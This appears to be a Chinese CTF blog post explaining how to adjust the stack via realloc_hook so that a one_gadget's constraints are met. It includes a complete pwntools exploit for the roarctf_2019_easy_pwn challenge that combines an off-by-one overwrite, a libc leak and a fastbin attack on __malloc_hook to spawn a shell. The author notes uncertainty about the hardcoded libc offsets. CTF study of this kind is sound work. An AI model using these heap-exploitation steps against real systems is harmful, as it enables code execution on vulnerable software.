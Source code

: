 ```yaml
---
title: realloc hook
tags: [ctf-pwn,heap]
date: 2023-11-14 15:16:00
categories: [ctf-pwn]
excerpt: 执行one gadget的限制

---
```


one gadget 条件不满足，需要调整栈，让`rsp+xxx`等于null。

原理：

realloc的汇编代码，在调用realloc_hook之前比malloc、free等多了push指令和sub抬栈操作

realloc_hook同malloc_hook相邻，一次性修改两个，还可以用`malloc-0x23`

操作：

1. 修改malloc_hook为realloc控制栈帧的地址

2. 修改realloc_hook为onegadget

   

## roarctf_2019_easy_pwn

https://buuoj.cn/challenges#roarctf_2019_easy_pwn

不知道libc。buuoj只说了是ubuntu16，buuoj上下下来的libc-2.23.so和我抄的题解的不一样（one gadget就不一致），然后realloc偏移咋来的我就不知道了。。。mallochook的倒是对的

```python
from pwn import *
context(arch='amd64', os='linux')
p = process("./roar")
#p = remote("node4.buuoj.cn", 25453)
#gdb.attach(p)
libc = ELF("./libc-2.23.so")

def create(size):
	p.sendlineafter("choice: ", str(1))
	p.sendlineafter("size: ", str(size))

def write(index, size, content):
	p.sendlineafter("choice: ", str(2))
	p.sendlineafter("index: ", str(index))
	p.sendlineafter("size: ", str(size))
	p.sendlineafter("content: ", content)

def free(index):
	p.sendlineafter("choice: ", str(3))
	p.sendlineafter("index: ", str(index))

def show(index):
	p.sendlineafter("choice: ", str(4))
	p.sendlineafter("index: ", str(index))

create(0x18) #0
create(0x18) #1
create(0x88) #2
create(0x18) #3
write(0,0x18+10,'a'*0x18+'\xb1')
free(1)
create(0x18) #1
show(2)

p.recvuntil("content: ")
leak = u64(p.recvline()[:8])

libc1 = leak - libc.symbols['__malloc_hook'] - 0x68
malloc_hook = libc1 + libc.symbols['__malloc_hook']
free_hook = libc1 + libc.symbols['__free_hook']
fake_chunk = malloc_hook - 0x23

log.info("Leak is:        " + hex(leak))
log.info("Free hook is:   " + hex(free_hook))
log.info("Malloc hook is: " + hex(malloc_hook))
log.info("Fake chunk is:  " + hex(fake_chunk))
log.info("libc is:        " + hex(libc1))


realloc=libc1 + 0x846CD
log.info("realloc is      " + hex(realloc))

one_gadget=libc1 +0xf02a4


create(0x88) #4
create(0x18) #5
create(0x68) #6
create(0x18) #7
write(3,0x18+10,'a'*0x18+'\x91')
free(6)
free(5)
create(0x88) #5
write(5, 0x28, b'a'*0x18+p64(0x71)+p64(malloc_hook-0x23))
create(0x68) #6
create(0x68) #8
write(8, 0x1b, b'a'*0xb+p64(one_gadget)+p64(realloc))

create(0x18)
p.interactive()

```

